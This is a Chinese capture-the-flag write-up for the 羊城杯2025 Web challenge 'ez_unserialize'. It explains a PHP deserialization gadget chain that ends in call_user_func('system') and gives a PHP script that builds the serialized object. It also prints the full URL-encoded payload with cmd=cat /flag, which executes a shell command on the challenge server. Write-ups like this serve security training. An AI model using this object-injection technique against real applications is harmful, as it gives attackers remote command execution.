 ## 羊城杯2025-Web

题目感觉出的不错，很有意思，但做起来有点牢

### ez_unserialize

思路：`H->__destruct()` → `A::start()` 回显 `$a->next`，让它是 `V`。
 `V::__toString()` 取 `$this->go->$abc`，设 `$abc='secret'` 且 `go=E` 触发 `E::__get()` → `$found->check()`。
 `F::check()` 里 `finalstep='u'`（小写绕过 `/U/`），实例化 `new u()` 实际拿到类 `U`，再 `($this->step)()` 触发 `U::__invoke()` → 调 `N::__call()` → `call_user_func('system', $_POST['cmd'])`。

用同名类构造链，POST 两个参数：`payload` 和 `cmd=cat /flag`。

所以写脚本：

```
<?php
class A { public $first; public $step; public $next; }
class E { private $you; public $found; private $secret; }
class F { public $fifth; public $step; public $finalstep; }
class H { public $who; public $are; public $you; }
class V { public $good; public $keep; public $dowhat; public $go; }

$v = new V();
$v->dowhat = 'secret';
$e = new E();
$f = new F();
$f->finalstep = 'u';
$e->found = $f;
$v->go = $e;

// A::start() echo $this->next 触发 V::__toString
$a = new A();
$a->next = $v;
$h = new H();
$h->who = $a;


$payload = serialize($h);

echo urlencode($payload);


```

跑完生成payload，再传上cmd参数

```
payload=O%3A1%3A%22H%22%3A3%3A%7Bs%3A3%3A%22who%22%3BO%3A1%3A%22A%22%3A3%3A%7Bs%3A5%3A%22first%22%3BN%3Bs%3A4%3A%22step%22%3BN%3Bs%3A4%3A%22next%22%3BO%3A1%3A%22V%22%3A4%3A%7Bs%3A4%3A%22good%22%3BN%3Bs%3A4%3A%22keep%22%3BN%3Bs%3A6%3A%22dowhat%22%3Bs%3A6%3A%22secret%22%3Bs%3A2%3A%22go%22%3BO%3A1%3A%22E%22%3A3%3A%7Bs%3A6%3A%22%00E%00you%22%3BN%3Bs%3A5%3A%22found%22%3BO%3A1%3A%22F%22%3A3%3A%7Bs%3A5%3A%22fifth%22%3BN%3Bs%3A4%3A%22step%22%3BN%3Bs%3A9%3A%22finalstep%22%3Bs%3A1%3A%22u%22%3B%7Ds%3A9%3A%22%00E%00secret%22%3BN%3B%7D%7D%7Ds%3A3%3A%22are%22%3BN%3Bs%3A3%3A%22you%22%3BN%3B%7D&cmd=cat /flag
```
